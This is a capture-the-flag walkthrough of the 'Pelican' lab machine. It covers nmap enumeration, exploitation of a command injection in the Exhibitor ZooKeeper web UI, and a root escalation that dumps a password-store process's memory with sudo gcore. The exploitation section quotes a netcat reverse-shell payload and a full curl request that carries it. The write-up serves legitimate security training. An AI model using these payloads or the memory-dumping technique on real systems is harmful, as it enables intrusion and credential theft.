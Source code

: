 # Network Enumeration

```bash
nmap -r -v --min-rate=1500 -p- -oN 001-nmap-tcp-full  192.168.183.98
PORT      STATE SERVICE
22/tcp    open  ssh
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
631/tcp   open  ipp
2181/tcp  open  eforward
2222/tcp  open  EtherNetIP-1
8080/tcp  open  http-proxy
8081/tcp  open  blackice-icecap
41665/tcp open  unknown

┌──(aaron㉿aacai)-[~/Desktop/pg/Pelican]         
└─$ sudo nmap -p139,445,631,2181,2222,8080,8081,41665 -A 192.168.183.98
Starting Nmap 7.94 ( https://nmap.org ) at 2023-08-17 05:47 +0330                                    
Nmap scan report for 192.168.183.98           
Host is up (0.28s latency).                                           
PORT      STATE SERVICE     VERSION    
139/tcp   open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp   open  g      Samba smbd 4.9.5-Debian (workgroup: WORKGROUP)                                       
631/tcp   open  ipp         CUPS 2.2
|_http-title: Forbidden - CUPS v2.2.10    
|_http-server-header: CUPS/2.2 IPP/2.1                                              
| http-methods: 
|_  Potentially risky methods: PUT  
2181/tcp  open  zookeeper   Zookeeper 3.4.6-1569965 (Built on 02/20/2014) 
2222/tcp  open  ssh         OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)                 
8080/tcp  open  http        Jetty 1.0                                                                              
|_http-server-header: Jetty(1.0)                                                                                   
|_http-title: Error 404 Not Found                                                                                  
8081/tcp  open  http        nginx 1.14.2                                                                           
|_http-server-header: nginx/1.14.2                                                                                 
|_http-title: Did not follow redirect to http://192.168.183.98:8080/exhibitor/v1/ui/index.html                     
41665/tcp open  java-rmi    Java RMI                                                                               
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port              
Aggressive OS guesses: Linux 2.6.18 (87%), Linux 4.15 - 5.8 (87%), Linux 5.0 - 5.4 (87%), Linux 2.6.32 (87%), Linux 2.6.32 or 3.10 (87%), Linux 3.5 (87%), Linux 4.4 (87%), Synology DiskStation Manager 5.1 (87%), WatchGuard Fireware
 11.8 (87%), Linux 5.3 - 5.4 (87%)                                                                                 
No exact OS matches for host (test conditions non-ideal).                                                          
Network Distance: 4 hops                                                                                           
Service Info: Host: PELICAN; OS: Linux; CPE: cpe:/o:linux:linux_kernel                                             
```

# Port enumeration

## 8081

The port 8081 will redirect to port `8080/exhibitor/v1/ui/index.html`, that's exhibitor for ZooKeeper and the verion is 1.0. 

<img src="../Images/image-20230817102456962.png" alt="image-20230817102456962" style="zoom:80%;" />

Search on google with `exhibitor for zookeeper v1.0`, then the first one return there are `Exhibitor Web UI 1.7.1 - Remote Code Execution`, use the exploit from [exploitdb](https://www.exploit-db.com/exploits/48654).

The description is

```
An exploitable command injection vulnerability exists in the Config editor of the Exhibitor Web UI versions 1.0.9 to 1.7.1. 

The steps to exploit it from a web browser:
    Open the Exhibitor Web UI and click on the Config tab, then flip the Editing switch to ON
    In the “java.env script” field, enter any command surrounded by $() or ``, for example, for a simple reverse shell:
    $(/bin/nc -e /bin/sh 10.0.0.64 4444 &)
    Click Commit > All At Once > OK
    The command may take up to a minute to execute.

It can also be performed with a single curl command:
command: curl -X POST -d @data.json http://10.0.0.200:8080/exhibitor/v1/config/set
data.json: { “zookeeperInstallDirectory”: “/opt/zookeeper”, “zookeeperDataDirectory”: “/opt/zookeeper/snapshots”, “zookeeperLogDirectory”: “/opt/zookeeper/transactions”, “logIndexDirectory”: “/opt/zookeeper/transactions”, “autoManageInstancesSettlingPeriodMs”: “0”, “autoManageInstancesFixedEnsembleSize”: “0”, “autoManageInstancesApplyAllAtOnce”: “1”, “observerThreshold”: “0”, “serversSpec”: “1:exhibitor-demo”, “javaEnvironment”: “$(/bin/nc -e /bin/sh 10.0.0.64 4444 &)”, “log4jProperties”: “”, “clientPort”: “2181”, “connectPort”: “2888”, “electionPort”: “3888”, “checkMs”: “30000”, “cleanupPeriodMs”: “300000”, “cleanupMaxFiles”: “20”, “backupPeriodMs”: “600000”, “backupMaxStoreMs”: “21600000”, “autoManageInstances”: “1”, “zooCfgExtra”: { “tickTime”: “2000”, “initLimit”: “10”, “syncLimit”: “5”, “quorumListenOnAllIPs”: “true” }, “backupExtra”: { “directory”: “” }, “serverId”: 1 }
```

So navigate to config then set the `java.env script`, try to reverse shell.

<img src="../Images/image-20230817102816661.png" alt="image-20230817102816661" style="zoom:80%;" />

Then get reverse shel.

<img src="../Images/image-20230817102957324.png" alt="image-20230817102957324" style="zoom:80%;" />

# PE

## Information Collection

### Basic Information

<img src="../Images/image-20230817103400592.png" alt="image-20230817103400592" style="zoom:80%;" />

### Cronjob

<img src="../Images/image-20230817103629622.png" alt="image-20230817103629622" style="zoom:80%;" />

### Active Ports

<img src="../Images/image-20230817103706794.png" alt="image-20230817103706794" style="zoom:80%;" />

### Sudo -l

<img src="../Images/image-20230817103719565.png" alt="image-20230817103719565" style="zoom:80%;" />

### Users

<img src="../Images/image-20230817103738153.png" alt="image-20230817103738153" style="zoom:80%;" />

### Useful software

<img src="../Images/image-20230817103751682.png" alt="image-20230817103751682" style="zoom:80%;" />

### Interesting File permission

```bash
══════════════════════╣ Files with Interesting Permissions ╠══════════════════════                                                                                                                                                                            
╔══════════╣ SUID - Check easy privesc, exploits and write perms
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-and-suid                                                                                                                                                        
strace Not Found                                                                                                                                                                                                                        
-rwsr-xr-- 1 root dip 378K Feb 20  2020 /usr/sbin/pppd  --->  Apple_Mac_OSX_10.4.8(05-2007)                                                                                                                                             
-rwsr-xr-x 1 root root 427K Jan 31  2020 /usr/lib/openssh/ssh-keysign
-rwsr-xr-- 1 root messagebus 50K Jul  5  2020 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-xr-x 1 root root 10K Mar 28  2017 /usr/lib/eject/dmcrypt-get-device
-rwsr-sr-x 1 root root 15K Aug 27  2020 /usr/lib/xorg/Xorg.wrap
-rwsr-xr-x 1 root root 19K Jan 15  2019 /usr/lib/policykit-1/polkit-agent-helper-1
-rwsr-xr-x 1 root root 151K Mar 21  2019 /usr/bin/ntfs-3g  --->  Debian9/8/7/Ubuntu/Gentoo/others/Ubuntu_Server_16.10_and_others(02-2017)
-rwsr-xr-x 1 root root 55K Mar  6  2019 /usr/bin/bwrap
-rwsr-xr-x 1 root root 63K Jan 10  2019 /usr/bin/su
-rwsr-xr-x 1 root root 51K Jan 10  2019 /usr/bin/mount  --->  Apple_Mac_OSX(Lion)_Kernel_xnu-1699.32.7_except_xnu-1699.24.8
-rwsr-xr-x 1 root root 44K Jul 27  2018 /usr/bin/chsh
-rwsr-xr-x 1 root root 63K Jul 27  2018 /usr/bin/passwd  --->  Apple_Mac_OSX(03-2006)/Solaris_8/9(12-2004)/SPARC_8/9/Sun_Solaris_2.3_to_2.5.1(02-1997)
-rwsr-xr-x 1 root root 35K Apr 22  2020 /usr/bin/fusermount
-rwsr-xr-x 1 root root 83K Jul 27  2018 /usr/bin/gpasswd
-rws--x--x 1 root root 17K Sep 10  2020 /usr/bin/password-store (Unknown SUID binary!)
-rwsr-xr-x 1 root root 44K Jul 27  2018 /usr/bin/newgrp  --->  HP-UX_10.20
-rwsr-xr-x 1 root root 53K Jul 27  2018 /usr/bin/chfn  --->  SuSE_9.3/10
-rwsr-xr-x 1 root root 154K Feb  2  2020 /usr/bin/sudo  --->  check_if_the_sudo_version_is_vulnerable
-rwsr-xr-x 1 root root 35K Jan 10  2019 /usr/bin/umount  --->  BSD/Linux(08-1996)
-rwsr-xr-x 1 root root 23K Jan 15  2019 /usr/bin/pkexec  --->  Linux4.10_to_5.1.17(CVE-2019-13272)/rhel_6(CVE-2011-1485)
```

There are ` /usr/bin/password-store` runnning as root, use `sudo -u root /usr/bin/gcore -a -o <outputfile> <pid>` to check the details.

```bash
charles@pelican:/tmp$ ps -ef | grep "password-store"
root       527     1  0 22:08 ?        00:00:00 /usr/bin/password-store
root     24088     1  0 22:45 ?        00:00:00 /usr/bin/password-store
charles  24409 31105  0 22:46 pts/1    00:00:00 grep password-store
```

We got the `password-store` PID, use `gcore` to export.

```bash
charles@pelican:/tmp$ sudo -u root /usr/bin/gcore -a -o /home/charles/output 527
```

Now use `strings` to check information on `output.527`

```bash
charles@pelican:~$ strings output.527
```

Then we can get root password.

<img src="../Images/image-20230817105306426.png" alt="image-20230817105306426" style="zoom:80%;" />

Finally get root account.

<img src="../Images/image-20230817105336804.png" alt="image-20230817105336804" style="zoom:80%;" />